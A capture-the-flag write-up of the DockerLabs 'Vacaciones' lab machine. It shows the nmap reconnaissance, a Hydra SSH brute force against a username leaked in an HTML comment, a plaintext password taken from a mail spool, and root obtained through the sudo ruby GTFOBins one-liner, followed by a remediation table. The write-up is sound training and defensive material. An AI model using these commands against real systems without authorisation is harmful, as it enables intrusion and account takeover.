





# Vacaciones — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Very Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.1

## Machine info


## Summary

**Vacaciones** is a Very Easy DockerLabs machine built around a chain of information disclosure issues rather than a single exploit. A comment left in the site's HTML source leaked a valid username, which was cracked via SSH brute-force. The user's local mail spool then leaked a second user's password in plaintext, and that second user had passwordless sudo on a full scripting interpreter, leading directly to root.

**Attack chain:** Reconnaissance → HTML Comment Leak (Username) → SSH Brute Force → Local Mail Leak (Second User's Password) → Sudo Misconfiguration (ruby, GTFOBins) → Root

## 1. Reconnaissance

Confirmed connectivity to the target:



Full port scan with `nmap`:

```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

Only SSH and a bare, title-less Apache instance are exposed — the web root was the next logical step.

## 2. Web Enumeration

The web root returned a blank page:



Viewing the page source revealed a comment left behind by the developer, disclosing a valid username (`camilo`) and referencing an internal email:

```
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
```



## 3. SSH Brute Force

With a valid username in hand, Hydra was used against SSH with the `rockyou.txt` wordlist:

```
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

[22][ssh] host: 172.17.0.2   login: camilo   password: password1
```

Valid credentials: **camilo:password1**

## 4. Local Enumeration & Lateral Movement

Logged in over SSH as `camilo` and stabilized the shell:

```
ssh camilo@172.17.0.2
script /dev/null -c bash
```

The internal email hinted at in the HTML comment was found locally in the user's mail spool:



The message, written by `juan`, disclosed his password in plaintext (`2k84dicb`). Pivoted to `juan`:

```
su juan
script /dev/null -c bash
```

## 5. Privilege Escalation

Checking sudo permissions for `juan` revealed passwordless access to Ruby:

```
sudo -l

User juan may run the following commands on ece5fdfe5dc0:
    (ALL) NOPASSWD: /usr/bin/ruby
```

This is a well-known GTFOBins escalation vector:

```
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```



Root access confirmed.

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| HTML comment in production leaking a valid username and internal context | Strip debug/internal comments before deploying to production |
| Weak SSH password (`camilo:password1`) vulnerable to dictionary attack | Enforce a strong password policy; prefer key-based SSH authentication |
| Plaintext credentials stored in a user's local mail file | Never store passwords in mail, notes, or plaintext files; use a secrets manager |
| Passwordless sudo on a full interpreter (`/usr/bin/ruby`) | Remove NOPASSWD or restrict sudoers to a specific vetted script instead of a general-purpose interpreter |
